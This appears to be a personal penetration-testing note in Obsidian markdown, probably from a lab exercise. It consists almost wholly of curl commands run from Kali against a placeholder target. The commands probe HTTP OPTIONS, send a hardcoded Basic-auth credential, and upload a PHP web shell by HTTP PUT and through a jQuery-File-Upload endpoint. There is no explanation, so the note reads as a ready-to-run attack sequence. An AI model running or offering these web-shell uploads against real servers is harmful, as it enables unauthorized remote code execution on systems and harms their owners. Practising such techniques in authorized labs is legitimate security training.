 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

```bash - kali
curl -v -X OPTIONS http://$TARGET/test
```

```bash - kali
curl -v -X OPTIONS http://$TARGET/test -H "Authorization: Basic YWRtaW5pc3RyYW50OnNsZWVwbGVzcw=="
```

![[0._PHP_Webshells#wwolf]]

```bash - kali
curl --upload-file webshell.php -v --url http://$TARGET/test/webshell.php -0 --http1.0 -H "Authorization: Basic YWRtaW5pc3RyYW50OnNsZWVwbGVzcw=="
```

```bash - kali
curl -F "files=@webshell.php" http://$TARGET/jquery-file-upload/server/php/
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
